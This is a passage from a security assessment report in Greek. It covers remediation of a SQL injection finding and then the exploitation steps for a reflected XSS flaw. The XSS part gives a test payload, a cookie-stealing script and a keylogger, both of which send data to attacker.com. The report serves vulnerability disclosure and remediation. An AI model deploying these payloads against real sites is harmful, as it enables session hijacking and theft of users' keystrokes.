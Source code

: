 #### 4.1.4 Επιπτώσεις (Impact)
- **Data Breach:** Πλήρης πρόσβαση σε όλα τα δεδομένα της βάσης
- **Authentication Bypass:** Δυνατότητα login ως οποιοσδήποτε χρήστης
- **Data Integrity:** Δυνατότητα τροποποίησης/διαγραφής δεδομένων
- **Compliance Violations:** Παραβίαση GDPR (Article 32)

#### 4.1.5 Προτάσεις Αντιμετώπισης
**Immediate Actions:**
1. Χρήση Prepared Statements/Parameterized Queries
```python
# Vulnerable code
query = f"SELECT * FROM products WHERE id = {product_id}"

# Secure code
query = "SELECT * FROM products WHERE id = ?"
cursor.execute(query, (product_id,))
```

2. Input Validation
```python
def validate_product_id(id):
    if not id.isdigit():
        raise ValueError("Invalid product ID")
    return int(id)
```

3. Least Privilege για Database User
4. Implement Web Application Firewall (WAF)

---

### 4.2 ΕΥΠΑΘΕΙΑ #2: Cross-Site Scripting (XSS)

#### 4.2.1 Περιγραφή της Ευπάθειας
**Severity:** HIGH (CVSS 3.1: 7.5)  
**CWE ID:** CWE-79  
**OWASP Category:** A03:2021 – Injection

Reflected XSS ευπάθεια εντοπίστηκε στη λειτουργία αναζήτησης όπου το user input εμφανίζεται στη σελίδα χωρίς proper encoding.

#### 4.2.2 Τεχνικά Βήματα Εντοπισμού & Εκμετάλλευσης

**Βήμα 1: Basic XSS Test**
```html
# Test payload
/search?q=<script>alert('XSS')</script>

# Reflected in response:
<p>Search results for: <script>alert('XSS')</script></p>
```

**Βήμα 2: Advanced Payload**
```javascript
# Cookie stealer
<script>
var i=new Image();
i.src="http://attacker.com/steal.php?cookie="+document.cookie;
</script>

# Keylogger
<script>
document.onkeypress = function(e) {
    var req = new XMLHttpRequest();
    req.open("GET", "http://attacker.com/log.php?key=" + e.key, true);
    req.send();
}
```